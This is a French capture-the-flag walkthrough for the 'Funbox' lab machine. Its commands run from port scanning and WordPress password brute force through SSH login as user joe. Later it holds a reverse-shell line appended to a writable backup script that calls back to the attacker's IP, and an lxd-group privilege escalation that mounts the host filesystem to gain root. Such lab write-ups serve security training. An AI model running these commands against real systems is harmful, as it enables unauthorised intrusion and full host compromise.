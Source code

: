 # Funbox

	sudo masscan -p1-65535,U:1-65535 192.168.249.77 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.249.77 -oN nmap.txt
	feroxbuster --silent -u http://192.168.249.77

Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp ProFTPD  
	22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http Apache httpd 2.4.41 ((Ubuntu))  
	33060/tcp open mysqlx?

Feroxbuster trouve pas mal de chemins WordPress. En cherchant la page de login j'ai été redirigé vers http://funbox.fritz.box/wp-login.php et j'ai dû rajouter ce nom dans mon fichier /etc/hosts pour pouvoir scanner le site : 

	echo "192.168.249.77 funbox.fritz.box" >> /etc/hosts
	wpscan --url http://funbox.fritz.box/ --enumerate -v
	wpscan --url http://funbox.fritz.box/ --enumerate -v -P ~/wordlists/rockyou.txt

=> Deux utilisateurs trouvés : Admin et Joe
</br>=> Mot de passe trouvé pour les deux
</br>=> Version 5.4.2

Vérification des mots de passe sur les autres services : 

	ftp admin@192.168.249.77 	# FAIL
	ssh admin@192.168.249.77	# FAIL
	ftp joe@192.168.249.77 		# OK
	ssh joe@192.168.249.77		# OK
	...
	cat ~/local.txt
	
### Pivoting et élévation de privilèges : 

	python -c 'import pty;pty.spawn("/bin/bash")'

	cat ./mbox
	ls /home
	ls /home/funny -la
	cat /home/funny/.reminder.sh
	cat /home/funny/.backup.sh

Je n'ai pas trouvé de tâches planifiées lançant ce script mais je me dis que c'est peut-être dû au fait que je n'ai pas tous les droits, et comme il est ouvert en écriture autant tenter de le modifier quand même. Il appartient à l'utilisateur "Funny" donc je ne pourrai pas directement utiliser la technique du SUID sur /bin/bash, mais je vais pouvoir obtenir un reverse-shell en tant que Funny.

	echo "sh -i >& /dev/tcp/192.168.45.158/443 0>&1" >> /home/funny/.backup.sh
	==========
	rlwrap nc -nvlp 443
	...
	whoami
	id

> uid=1000(funny) gid=1000(funny) groups=1000(funny),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
	
Des élévations de privilèges existent si un utilisateur appartient au groupe lxd.

Voir : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Ajout du bon chemin dans PATH :
	
	find / -name "lxd" 2>/dev/null
	find / -name "lxc" 2>/dev/null
	export PATH=$PATH:/snap/bin

Préparation sur ma machine d'attaque : 

	sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
	git clone https://github.com/lxc/distrobuilder
	cd distrobuilder
	make
	mkdir -p ~/ContainerImages/alpine/
	cd ~/ContainerImages/alpine/
	wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
	sudo /home/timothe/go/bin/distrobuilder build-lxd /home/timothe/ContainerImages/alpine/alpine.yaml -o image.release=3.8
	python -m http.server 8000

Réception côté cible : 

	lxd init
	wget http://192.168.45.158:8000/lxd.tar.xz 
	wget http://192.168.45.158:8000/rootfs.squashfs
	lxc init alpine privesc -c security.privileged=true
	lxc list
	lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
	lxc start privesc 
	lxc exec privesc /bin/sh
	
	cat /root/proof.txt
	

